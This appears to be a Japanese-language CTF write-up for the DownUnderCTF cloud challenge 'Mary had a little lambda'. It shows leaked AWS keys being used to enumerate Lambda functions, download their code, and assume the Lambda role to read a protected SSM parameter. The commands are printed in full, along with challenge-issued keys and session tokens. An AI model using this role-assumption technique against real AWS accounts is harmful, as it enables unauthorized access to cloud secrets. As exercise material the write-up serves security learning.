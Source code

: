 # Mary had a little lambda:misc:154pts
**RE: Mary had a little lambda**  
**To: Satoki@bunkyowesterns.duc.tf**  

Dear Satoki,  

The Ministry of Australian Research into Yaks (MARY) is the leading authority of yak related research in Australia. They know a lot about long-haired domesticated cattle, but unfortunately not a lot about information security.  

They have been migrating their yak catalog application to a serverless, lambda based, architecture in AWS, but in the process have accidentally exposed an access key used by their admins. You've gotten a hold of this key, now use this access to uncover MARY's secrets!  

Regards,  
gyrospectre  

**Attachments**  
[access_key.txt](access_key.txt)  

# Solution
問題文からLambdaで何か作ったが、AWSのアクセスキーが漏れてしまったようだ。  
配布されたファイルに、以下の通りキーが書かれていた。  
```
[devopsadmin]
aws_access_key_id=AKIAXC42U7VJ2XOBQKGI
aws_secret_access_key=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
region=us-east-1
```
ひとまずLambda関数を列挙する。  
```bash
$ export AWS_ACCESS_KEY_ID="AKIAXC42U7VJ2XOBQKGI"
$ export AWS_SECRET_ACCESS_KEY="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"
$ export AWS_DEFAULT_REGION="us-east-1"
$ aws lambda list-functions
{
    "Functions": [
        {
            "FunctionName": "yakbase",
            "FunctionArn": "arn:aws:lambda:us-east-1:487266254163:function:yakbase",
            "Runtime": "python3.13",
            "Role": "arn:aws:iam::487266254163:role/lambda_role",
            "Handler": "yakbase.lambda_handler",
            "CodeSize": 623,
            "Description": "",
            "Timeout": 30,
            "MemorySize": 128,
            "LastModified": "2025-07-14T12:42:45.148+0000",
            "CodeSha256": "TJjcu+uixucgk+66VOvlNYdT4ifRe6bgdAQxWujMwVM=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "6e45ccea-697d-4cd8-b606-67577b601b0b",
            "Layers": [
                {
                    "Arn": "arn:aws:lambda:us-east-1:487266254163:layer:main-layer:1",
                    "CodeSize": 689581
                }
            ],
            "PackageType": "Zip",
            "Architectures": [
                "x86_64"
            ],
            "EphemeralStorage": {
                "Size": 512
            },
            "SnapStart": {
                "ApplyOn": "None",
                "OptimizationStatus": "Off"
            }
        }
    ]
}
```
`yakbase`なるものがあるようなので、ZipのDLを試みる。  
```bash
$ aws lambda get-function --function-name yakbase --query 'Code.Location' --output text
https://prod-04-2014-tasks.s3.us-east-1.amazonaws.com/snapshots/487266254163/yakbase-f70d7c3a-5267-425f-8ed2-4c7a9497db04?versionId=AWtrEWcqRUhNouC7YHffyafILNKu2lrj&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEJ3%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLWVhc3QtMSJIMEYCIQCou1j1Zvtb54zqrQzWSeYfz5%2FzExfQvZHTIm4wy0botQIhAIqRCfoXgXC0H3vNLVtUkyGlcMyRBUMakHxsPSp9dfKrKpICCLX%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNzQ5Njc4OTAyODM5IgzvTKoQTCezqnnmyK8q5gHHG5wonoPdpqbMejpeGMcUFJ2V6Q8j93lu63pvVLmXvEhyMkQAlpBfHECsgHmNgk0%2BzR94dd5kLfM5qcjabVP6wqbLjctT1ZRsQYroMQq3qv3fXDqZiDZrETNzHDNY7qtkLgKosf2ECNFRKRJqeYFwxegN8IOPWbA2hxwWFlioUXL%2BniZLEpHY73j4Xnm6Wl4Iby7lQaKmPwrPgQVFWjpD2tE1nkjtIAuBnlIlZnnhyLFnGLv%2BMurxloDxOlxPWIXP%2B0bG1l7q%2Fb52Z4htmSP2EUcF4E2vnpsaNpSm%2BOSDt1Es6dyjkDDg2PHDBjqOAULa4DNoviuNZoIvS%2Bb6vLd63WWzq7PyCVhH14qwerJa6Nyvz39gaS6pUeuXDSCFBF%2F6A46EA8jBikDhk4FVZxR0OC1FW9Zb%2BOr9yI3lw9cRjCf1nPrvcv4zOMeV1%2FeFQwtNaBWxsEZyN%2Fnr%2Fze9yoMvdCpuXxqmnhJxItLWGntNmOGBNBpxRZnP5lmAPpU%3D&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20250720T151823Z&X-Amz-SignedHeaders=host&X-Amz-Expires=600&X-Amz-Credential=ASIA25DCYHY362AC64SB%2F20250720%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=5f701468d0c0c8f78a4c3387c441e0caf01c9f2e6531a32de6868fcbe7606e70
$ curl 'https://prod-04-2014-tasks.s3.us-east-1.amazonaws.com/snapshots/487266254163/yakbase-f70d7c3a-5267-425f-8ed2-4c7a9497db04?versionId=AWtrEWcqRUhNouC7YHffyafILNKu2lrj&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEJ3%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLWVhc3QtMSJIMEYCIQCou1j1Zvtb54zqrQzWSeYfz5%2FzExfQvZHTIm4wy0botQIhAIqRCfoXgXC0H3vNLVtUkyGlcMyRBUMakHxsPSp9dfKrKpICCLX%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNzQ5Njc4OTAyODM5IgzvTKoQTCezqnnmyK8q5gHHG5wonoPdpqbMejpeGMcUFJ2V6Q8j93lu63pvVLmXvEhyMkQAlpBfHECsgHmNgk0%2BzR94dd5kLfM5qcjabVP6wqbLjctT1ZRsQYroMQq3qv3fXDqZiDZrETNzHDNY7qtkLgKosf2ECNFRKRJqeYFwxegN8IOPWbA2hxwWFlioUXL%2BniZLEpHY73j4Xnm6Wl4Iby7lQaKmPwrPgQVFWjpD2tE1nkjtIAuBnlIlZnnhyLFnGLv%2BMurxloDxOlxPWIXP%2B0bG1l7q%2Fb52Z4htmSP2EUcF4E2vnpsaNpSm%2BOSDt1Es6dyjkDDg2PHDBjqOAULa4DNoviuNZoIvS%2Bb6vLd63WWzq7PyCVhH14qwerJa6Nyvz39gaS6pUeuXDSCFBF%2F6A46EA8jBikDhk4FVZxR0OC1FW9Zb%2BOr9yI3lw9cRjCf1nPrvcv4zOMeV1%2FeFQwtNaBWxsEZyN%2Fnr%2Fze9yoMvdCpuXxqmnhJxItLWGntNmOGBNBpxRZnP5lmAPpU%3D&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20250720T151823Z&X-Amz-SignedHeaders=host&X-Amz-Expires=600&X-Amz-Credential=ASIA25DCYHY362AC64SB%2F20250720%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=5f701468d0c0c8f78a4c3387c441e0caf01c9f2e6531a32de6868fcbe7606e70' -o lambda_code.zip
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   623  100   623    0     0    890      0 --:--:-- --:--:-- --:--:--   890
```
DLすると中に以下のyakbase.pyが含まれていた。  
```py
import os
import json
import logging
import boto3
import mysql.connector

logger = logging.getLogger()
logger.setLevel(logging.INFO)

def lambda_handler(event, context):
    session = boto3.Session()
    ssm = session.client('ssm')

    dbpass = ssm.get_parameter(Name="/production/database/password", WithDecryption=True)['Parameter']['Value']

    mydb = mysql.connector.connect(
       host="10.10.1.1",
       user="dbuser",
       password=dbpass,
       database="BovineDb"
    )
    cursor = mydb.cursor()
    cursor.execute("SELECT * FROM bovines")

    results = cursor.fetchall()
    
    # For testing without the DB!
    #results = [(1, 'Yak', 'Hairy', False),(2, 'Bison', 'Large', True)]

    numresults = len(results)
    response = f"Database contains {numresults} bovines."

    logger.info(response)

    return {
        'statusCode' : 200,
        'body': response
    }
```
SSM Parameter Storeから`/production/database/password`を取得しているようだ。  
悪用できそうな目立った脆弱性もない。  
```bash
$ aws ssm get-parameter --name "/production/database/password" --with-decryption --query "Parameter.Value" --output text

An error occurred (AccessDeniedException) when calling the GetParameter operation: User: arn:aws:iam::487266254163:user/devopsadmin is not authorized to perform: ssm:GetParameter on resource: arn:aws:ssm:us-east-1:487266254163:parameter/production/database/password because no identity-based policy allows the ssm:GetParameter action
```
さすがに`ssm:GetParameter`はできないようだ。  
ここで、可能かは不明だがLambdaのロールを引き継げば取得できそうだと気づく。  
`arn:aws:iam::487266254163:role/lambda_role`はすでに取得できているため、こちらを利用する。  
```bash
$ aws sts assume-role --role-arn "arn:aws:iam::487266254163:role/lambda_role" --role-session-name satok --output json
{
    "Credentials": {
        "AccessKeyId": "ASIAXC42U7VJY4MUCMJ7",
        "SecretAccessKey": "YvqWS7sUk17OdWFQue5jwhhZc/F9dM9vQVmWo9dU",
        "SessionToken": "FwoGZXIvYXdzELn//////////wEaDENsa6bg50dho0/4pyKpAdwrqMOORTgA7oVr+0z15z/h0qpBXOlfS40crS8+13GWKoGiSRy6cQBP5ql+5Ul+DrYHnPdnW6lYO0eJhqR/+pCicwYLjBR3itbi57a+W61xXOezlUH2RRVCXRK4GCidKPGU8ZyjNsoa749bf9v6bDbRVhTXgwcqRbHksYCwXdAfLCjDtTqek9bTAS1XLGbiVKvXim3zQXII9cDbfZQ/vytN1e3AI3H3T5wosJv0wwYyLe1p2gSThOKl/AmMteDCmrwWcWCvVb6w75WPyU4vC2oavzRa+WMbIGhfuZWjCQ==",
        "Expiration": "2025-07-20T16:39:28Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAXC42U7VJRLSSOYQRI:satok",
        "Arn": "arn:aws:sts::487266254163:assumed-role/lambda_role/satok"
    }
}
```
うまく引き継げたようだ。  
もう一度、`/production/database/password`を取得する。  
```bash
$ export AWS_ACCESS_KEY_ID="ASIAXC42U7VJY4MUCMJ7"
$ export AWS_SECRET_ACCESS_KEY="YvqWS7sUk17OdWFQue5jwhhZc/F9dM9vQVmWo9dU"
$ export AWS_SESSION_TOKEN="FwoGZXIvYXdzELn//////////wEaDENsa6bg50dho0/4pyKpAdwrqMOORTgA7oVr+0z15z/h0qpBXOlfS40crS8+13GWKoGiSRy6cQBP5ql+5Ul+DrYHnPdnW6lYO0eJhqR/+pCicwYLjBR3itbi57a+W61xXOezlUH2RRVCXRK4GCidKPGU8ZyjNsoa749bf9v6bDbRVhTXgwcqRbHksYCwXdAfLCjDtTqek9bTAS1XLGbiVKvXim3zQXII9cDbfZQ/vytN1e3AI3H3T5wosJv0wwYyLe1p2gSThOKl/AmMteDCmrwWcWCvVb6w75WPyU4vC2oavzRa+WMbIGhfuZWjCQ=="
$ aws sts get-caller-identity
{
    "UserId": "AROAXC42U7VJRLSSOYQRI:satok",
    "Account": "487266254163",
    "Arn": "arn:aws:sts::487266254163:assumed-role/lambda_role/satok"
}
$ aws ssm get-parameter --name "/production/database/password" --with-decryption --query "Parameter.Value" --output text
DUCTF{.*#--BosMutusOfTheTibetanPlateau--#*.}
```
flagが得られた。  

## DUCTF{.*#--BosMutusOfTheTibetanPlateau--#*.}
